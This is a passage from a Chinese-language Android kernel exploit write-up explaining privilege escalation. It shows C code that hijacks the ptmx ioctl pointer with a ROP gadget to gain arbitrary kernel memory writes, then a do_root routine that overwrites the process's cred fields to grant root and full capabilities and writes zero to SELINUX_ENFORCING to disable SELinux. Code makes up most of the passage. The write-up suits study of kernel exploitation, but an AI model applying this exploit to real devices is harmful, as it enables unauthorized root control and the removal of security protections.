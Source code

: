 比如，我们找到一段 rop 如上，其地址是 0xffffffc000671a58， 其指令是 str w1, [x2] ; ret ;

这段 rop 作为一个函数去执行的话，其效果相当于将第二个参数的值写入第三个参数指向的地址。

我们用这段 rop 构造一个用户态函数，如下


```c
static int kernel_write_32(unsigned long addr, unsigned int val)
{
        unsigned long arg;

        *(unsigned long*)(fake_ptmx_fops + 9 * 8) = ROP_WRITE;

        arg = addr;
        ioctl_syscall(__NR_ioctl, ptmx_fd, val, arg);
        return 0;
}
```

9*8 是 ioctl 函数在 file_operations 结构体里的偏移，

 `*(unsigned long*)(fake_ptmx_fops + 9 * 8) = ROP_WRITE;`

的效果就是 ioctl 的函数实现替换成 **ROP_WRITE**, 这样我们调用 ptmx 的 ioctl 函数时，最后真实执行的是 **ROP_WRITE**, 这就是一个内核任意地址写任意值函数。

同样的原理，我们封装读任意内核地址的函数。

有了任意内核地址读写函数之后，我们通过以下方法完成最终提权：

```c
static int do_root(void)
{
        int ret; 
        unsigned long i, cred, addr;
        unsigned int tmp0;

        /* search myself */
        ret = get_task_by_comm(&my_task);
        if(ret != 0) {
                printf("[-] get myself fail!\n");
                return -1;
        }
        if(!my_task || (my_task < 0xffffffc000000000)) {
                printf("invalid task address!");
                return -2;
        }

        ret = kernel_read(my_task + cred_offset, &cred);
        if (cred < KERNEL_BASE) return -3;

        i = 1; 
        addr = cred + 4 * 4;
        ret = kernel_read_32(addr, &tmp0);
        if(tmp0 == 0x43736564 || tmp0 == 0x44656144)
                i += 4;
        addr = cred + (i+0) * 4;
        ret = kernel_write_32(addr, 0);
        addr = cred + (i+1) * 4;
        ret = kernel_write_32(addr, 0);
...     
        ret = kernel_write_32(addr, 0xffffffff);
        addr = cred + (i+16) * 4;
        ret = kernel_write_32(addr, 0xffffffff);
        /* success! */
        
        // disable SELinux
        kernel_write_32(SELINUX_ENFORCING, 0);
```